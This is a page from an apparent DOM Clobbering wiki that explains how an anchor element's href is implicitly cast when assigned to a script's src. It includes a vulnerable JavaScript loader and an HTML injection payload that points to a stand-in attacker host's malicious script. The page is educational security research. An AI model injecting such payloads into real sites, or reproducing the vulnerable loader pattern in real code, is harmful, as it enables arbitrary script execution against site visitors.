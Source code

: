 ```yaml
---
title: Examples
parent: Techniques
nav_order: 6
---
```


{% include toggle_color.html %}

# DOM Clobbering Wiki

Stable
{: .label .label-green }


## DOM Clobbering Examples

This section presents a few simple, hands-on examples of DOM Clobbering, capturing the corner-case behaviours of browsers for exploitation, and will be updated gradually. 


### Implicit Cast of HTMLAnchorElement to Href String

Consider the following code listing:

```js
1. var s = document.createElement('script');
2. s.src = window.CONF || 'custom-script.js';
3. document.body.appendChild(s);
```

Attackers can obtain arbitrary code execution by clobbering the `window.CONF` property in line 2, as it is used as the `src` attribute of a dynamically loaded script

For successful exploitation, the value of `window.CONF` must be an `string`, and with DOM Clobbering we replace it with an `HTMLElement` or `WindowProxy`, which could prevent us from exploiting this vulnerability. However, when assigning a value to `HTMLScriptElement.src`, if the value is an instance of `HTMLAnchorElement`, the browser implicitly casts the value to its `href` property value. 

**Exploitation.** To exploit the above code lisiting, attackers can inject the following payload:

```html
<a id=CONF href="https://attack.com/malicious.js">
```

Note that while `window.CONF` refers to an `HTMLAnchorElement`, the assignment to `HTMLScriptElement.src` on line 2 casts it to its `href` property value. 


